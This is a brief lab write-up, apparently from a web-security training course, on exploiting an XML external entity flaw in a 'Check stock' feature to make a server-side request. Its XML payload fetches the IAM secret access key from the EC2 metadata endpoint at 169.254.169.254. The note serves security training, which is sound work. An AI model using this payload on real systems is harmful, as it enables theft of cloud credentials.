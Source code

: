 # Lab: Exploiting XXE to perform SSRF attacks

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

## XXE
* 用 XXE 訪問內網可以看到會一直返回路徑，一路訪問就會到機密資料了
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<stockCheck>
<productId>&xxe;</productId><storeId>&xxe;</storeId></stockCheck>
```